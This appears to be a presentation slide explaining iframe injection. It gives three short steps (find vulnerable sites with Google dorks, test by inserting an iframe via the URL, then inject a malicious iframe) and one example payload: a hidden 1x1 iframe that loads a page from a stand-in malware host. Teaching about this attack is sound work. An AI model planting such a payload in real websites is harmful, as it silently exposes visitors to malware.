

# Iframe Injection
1. First of all attacker will find the Vulnerable websites using google dorks.
2. They test the vulnerability by inserting some iframe tag using the url.
3. then insert the Malicious Iframe code inside the webpage.
For Example:
he can insert this code using the url:
<iframe src=”http://malwarewebpages/web.html” width=1 height=1 style=”visibility:hidden;position:absolute”></iframe>